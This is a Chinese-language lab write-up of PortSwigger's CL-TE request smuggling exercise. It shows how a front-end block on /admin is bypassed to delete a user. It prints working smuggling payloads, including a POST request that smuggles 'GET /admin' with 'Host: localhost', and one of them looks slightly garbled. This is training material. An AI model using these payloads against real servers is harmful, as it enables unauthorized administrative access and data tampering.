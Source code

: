 ```yaml
---
title: "CL-TE绕过前端服务器安全控制"
id: zhfly3480
---
```


#### CL-TE绕过前端服务器安全控制

**实验地址**：https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

**实验描述**：

本实验中包括一个前端和后端服务器，前端服务器不支持chunked encoding。同时本实验存在管理员系统/admin，但前端服务器限制了直接访问它。

要完成本实验，需向后端服务器走私一个http请求以访问到管理员系统并删除名为`carlos`的用户。

**实验过程**

分别访问/home和/admin，前者显示`"Not Found"`，后者显示`"Path /admin is blocked"`

![image](../img/abe3293b651b56f9b5c0bbb8fd187d80.png)

![image](../img/62df3f412e46f1c8f000da83fab453f6.png)

已提示CL-TE，即前端只识别`Content-Length`，后端只识别`Transfer-Encoding`

构造一个走私请求

```
GET /home HTTP/1.1
Host: ac6c1fff1e1b83fa809c15fe009a008d.web-security-academy.net
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=ZZT6WpfyCJOaSO3LiMQrzMhEU7gIW0GE
Content-Length: 24
Transfer-Encoding: chunked

0 `GET /admin HTTP/1.1` 
```

根据返回消息可知需要使用POST方法

多次发送请求后收到提示：需要以localhost形式访问/admin

如果不成功需要多次发送请求

![image](../img/85a2cd281457fe24709b1c8f1c65e3eb.png)

添加`Host: localhost`后多次发送请求

![image](../img/2d5b2e976e3f07717fe92dd80639ecb8.png)

提示：不允许提交重复的header names，此处官网给出的解释是：

> Observe that the request was blocked due to the second request’s Host header conflicting with the smuggled Host header in the first request.
> 
> Issue the following request twice so the second request’s headers are appended to the smuggled request body instead:
> 
> * * *
> 
> ```
> >POST / HTTP/1.1
> >Host: your-lab-id.web-security-academy.net
> >Content-Type: application/x-www-form-urlencoded
> >Content-Length: 116
> >Transfer-Encoding: chunked
> >
> >0
> >
> >GET /admin HTTP/1.1
> >Host: localhost
> >Content-Type: application/x-www-form-urlencoded
> >Content-Length: 10
> >
> >x=  
> > 
> ```

简言之，由于第二个请求的`Host header`与第一个请求中走私请求的`Host header`冲突，请求被阻止。

因此构造以上请求，在发送两次请求的时候，可将第二个请求http数据包附加到走私请求主体中，拼接在x=之后，成为一个请求。

最后构造删除请求即可

![image](../img/6c0e679db39a8f82967b5e82c461a8e8.png)

当然这里可以不采用以上方法，多次发送请求仍有概率成功，但成功率无法保证

![image](../img/b0569f1ebcb81976c4d425897d5bff5c.png)